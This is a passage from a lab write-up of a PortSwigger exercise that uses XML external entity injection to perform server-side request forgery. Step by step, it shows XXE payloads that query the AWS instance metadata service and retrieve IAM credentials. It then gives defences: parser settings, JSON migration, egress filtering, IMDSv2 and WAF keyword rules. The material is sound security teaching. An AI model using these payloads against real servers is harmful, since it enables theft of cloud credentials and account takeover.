

*Figure 9: Lab 2 — stock-check request ready in Burp Repeater*
 
---
 
**Step 2 — Inject the SSRF XXE payload**
 
Replace the XML body in Repeater with the following payload, which uses an `http://` URI to make the server issue an outbound HTTP request:
 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
 
**Why this is SSRF:** The `http://` scheme causes the XML parser to make an outbound HTTP GET request **from the server's network**, not the attacker's browser. The IP `169.254.169.254` is the AWS EC2 link-local Instance Metadata Service (IMDS) — it is reachable only from within the EC2 instance itself, not from the public internet. The parser fetches the response and embeds it into `<productId>`, which the application echoes back in the HTTP response — handing the attacker internal cloud infrastructure data.
 
Click **Send**.
 


*Figure 10: SSRF via XXE — EC2 instance metadata directory listing retrieved*
 
---
 
**Step 3 — Navigate to IAM credentials**
 
The response lists available metadata paths. Update the entity URI in Repeater to drill into the IAM credentials path:
 
```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```
 
Click **Send**. The response will contain the IAM role name (e.g., `admin`).
 


*Figure 11: IAM role name returned from EC2 metadata service via SSRF*
 
---
 
**Step 4 — Retrieve the secret access key**
 
Update the entity URI one final time to include the role name retrieved in Step 3:
 
```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
```
 
Click **Send**. The response now contains a JSON block with `AccessKeyId`, `SecretAccessKey`, and a temporary `Token`.
 


*Figure 12: Full AWS IAM credentials retrieved via SSRF XXE injection*
 
---
 
**Step 5 — Confirm the lab is solved**
 
Switch to the browser — the PortSwigger lab page shows the solved banner.
 


*Figure 13: Lab 2 — XXE to perform SSRF — solved*
 
---
 
**Lab 2 Summary**
 
This lab demonstrated that XXE extends beyond local file reads — the same entity declaration mechanism can be used to force the server to issue arbitrary HTTP requests from its own network context (SSRF). Because `169.254.169.254` is the AWS link-local Instance Metadata Service reachable only from within the EC2 instance, the attacker leveraged the server's network position to access infrastructure credentials that are completely inaccessible from the public internet. By iterating through the IMDS API paths, live AWS IAM credentials were retrieved — credentials that could be used to authenticate directly to AWS services with the permissions of the compromised role, potentially leading to full cloud account compromise. The root cause is identical to Lab 1: external entity resolution enabled on a parser that processes user-controlled input.
 
---
 
## Part C — Defence Implementation
 
The following defences address the vulnerabilities demonstrated in both labs and apply broadly to any application that parses XML.
 
---
 
**Defence 1 — Disable DTD Processing and External Entity Resolution (Primary Fix)**
 
The most direct remediation is to configure the XML parser to reject DTDs and external entities entirely, making XXE structurally impossible regardless of payload creativity.
 
- **Python / lxml:** `etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)`
- **Python (drop-in):** Replace `xml.etree.ElementTree` with `import defusedxml.ElementTree as ET` — secure by default
- **Java / DocumentBuilderFactory:** `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`
- **PHP / libxml:** `libxml_disable_entity_loader(true)` (PHP < 8.0); use `LIBXML_NOENT` flag carefully in PHP 8+
This single change would have prevented both Lab 1 (file read) and Lab 2 (SSRF) entirely.
 
---
 
**Defence 2 — Migrate to JSON or a Safer Data Format Where Possible**
 
If the application does not genuinely require XML-specific features (namespaces, XPath, XSLT, complex schemas), migrating the API to JSON eliminates the XXE attack surface entirely. JSON parsers have no concept of DTDs or entity declarations. For the stock-check endpoint demonstrated in both labs, `{"productId": 1, "storeId": 1}` is functionally equivalent and completely immune to XXE, blind XXE, and all related injection attacks. This is the most architecturally robust defence and should be the default choice for new API design.
 
---
 
**Defence 3 — Network Egress Filtering and Cloud Metadata Service Hardening**
 
For SSRF attacks (Lab 2), a critical infrastructure-level defence is to block server-side outbound HTTP connections to internal and link-local address ranges at the firewall or security group level. Specifically:
 
- Block outbound access to `169.254.169.254` (AWS IMDS v1) at the host firewall or AWS Security Group
- **Enable IMDSv2** on all EC2 instances — IMDSv2 requires a session-oriented `PUT` request to obtain a token before any metadata is accessible, making simple GET-based SSRF fetches return an error. The XXE payload can only perform GET requests, so IMDSv2 breaks the credential-retrieval chain even if XXE is present.
- Apply egress filtering rules to block RFC 1918 and link-local ranges (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `169.254.0.0/16`) from application-tier servers where internal service calls are not expected.
---
 
**Defence 4 — Input Validation and Schema Enforcement**
 
Validate all user-supplied XML against a strict allow-listed XSD schema *before* passing it to the parser. Reject documents that contain `DOCTYPE` or `ENTITY` keywords using a pre-parse string check (as an early-exit guard before the parser even runs). For file-upload scenarios (DOCX, SVG, XLSX — which are ZIP archives containing XML), unzip the file and scan each XML member for `DOCTYPE` declarations before processing. An allow-listing approach ensures that only documents matching the expected structure are processed, discarding all injection attempts at the boundary.
 
---
 
**Defence 5 — WAF Rules, DAST Scanning, and Monitoring**
 
- Deploy WAF rules that detect and block HTTP request bodies containing `DOCTYPE`, `ENTITY`, or `SYSTEM` keywords in XML-formatted content
- Integrate XXE-specific payloads into the CI/CD DAST pipeline using tools such as Burp Suite Pro, OWASP ZAP, or Nuclei — catching regressions before deployment
- Monitor application logs for XML parse errors (which spike during XXE fuzzing) and for unusual outbound network connections from application servers, which may indicate active SSRF exploitation
- Alert on any outbound connections from application-tier hosts to `169.254.169.254` or other internal RFC 1918 addresses — these should never occur in a correctly architected system
---